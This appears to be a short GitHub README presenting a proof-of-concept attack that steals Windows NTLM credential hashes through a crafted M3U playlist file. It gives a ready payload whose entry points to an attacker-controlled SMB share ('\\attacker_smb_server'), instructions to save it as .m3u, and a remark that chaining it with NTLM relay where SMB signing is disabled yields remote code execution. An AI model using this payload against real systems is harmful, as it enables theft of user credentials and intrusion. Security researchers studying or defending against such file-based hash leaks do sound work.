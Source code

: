 # NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE:  RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .




Tested on windows 7  “all player"



PoC :

#EXTM3U
#EXTINF:-1,leak_it_please
\\attacker_smb_server\xFolder
![Alt text](https://raw.githubusercontent.com/kofa2002/NTLM-THEFT/master/Screenshot%20from%202019-05-04%2008-11-15.png?token=AB5ULGT5JPE2CEWY65V6ZWC44PVTW "NTLM Leaked")

Save it as m3u extention.

Author : Soufian El Hachmi
